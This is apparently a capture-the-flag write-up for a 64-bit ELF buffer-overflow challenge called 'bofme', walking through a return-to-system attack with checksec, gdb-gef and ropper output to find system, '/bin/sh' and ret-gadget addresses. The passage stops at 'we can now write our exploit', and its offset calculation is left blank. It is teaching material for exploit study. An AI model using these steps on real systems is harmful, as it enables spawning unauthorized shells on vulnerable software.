

In this challenge, we are been given an ELF file, which is vulnerable to BOF.
``bash
$ ./bofme
a little harder this timeaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
zsh: segmentation fault (core dumped)  ./bofme
``
after analyzing the file with gdb gef, 
i undersood that i need to make **return2system**
# return2system
is a type of exploitation on which , hacker exploit BOF vuln and trigger the vuln application to call system fucntion with 
some string like /bin/bash
system('/bin/bash')
  after the app call this function, we can get the shell  and exploit the remote server.
  in order to success in this job, we need to fill some condition
- the programme must not have PIE protection. otherwise  we can't fill the second condition
- we need to get the address of system
- we need to get the address of sum strings which we must use as system function param
- we need to get 'ret' gadget  in order to make the program return to the address of 'system'
- calculus the offset to get the rip.

so let see if all the function can be fill.

- condition 1 : we can check the protection of the binary by using checksec util
  ``bash
  $ checksec bofme  
[*] '/media/top0n3/70529ABA0103002B/trainning/ctf/cyberCooperation/pwn/bofme/bofme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
  ``
  so we see that the program havn't 'PIE' protection. condition 1 filled.
  - condition 2:  get the address of 'system' or gdb gef
     in order to do that, we can use nm to get that address
    ``bash
    gef➤  p system
    $1 = {int (const char *)} 0x7ffff7e0b920 <__libc_system>
    gef➤
    ``
    the address of system is:  0x7ffff7e0b920

    - condition 3: strings that we will use as system param:
      i search it by using gef
      `` bash
      [+] Searching '/bin/sh' in memory
[+] In '/media/top0n3/70529ABA0103002B/trainning/ctf/cyberCooperation/pwn/bofme/bofme'(0x400000-0x401000), permission=r-x
  0x400744 - 0x40074b  →   "/bin/sh" 
[+] In '/media/top0n3/70529ABA0103002B/trainning/ctf/cyberCooperation/pwn/bofme/bofme'(0x600000-0x601000), permission=r--
  0x600744 - 0x60074b  →   "/bin/sh" 
[+] In '/usr/lib/x86_64-linux-gnu/libc.so.6'(0x7ffff7f3a000-0x7ffff7f8e000), permission=r--
  0x7ffff7f5504f - 0x7ffff7f55056  →   "/bin/sh" 
gef➤  x/s 0x7ffff7f5504f
0x7ffff7f5504f:	"/bin/sh"
``
so at : 0x7ffff7f5504f we have the string "/bin/sh"
- codition 4: get the 'ret gadget:
  i use ropper to get that address:
  
``bash 
ropper  --search 'ret'  -f bofme 
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: bofme
0x00000000004004d1: ret;
``
so at 0x00000000004004d1, we have ret instruction.

  
- condition 6: calculus the offset :
  
   
   
  so the offset is 33.

  #armed with all those informations, we can now write our exploit.
  
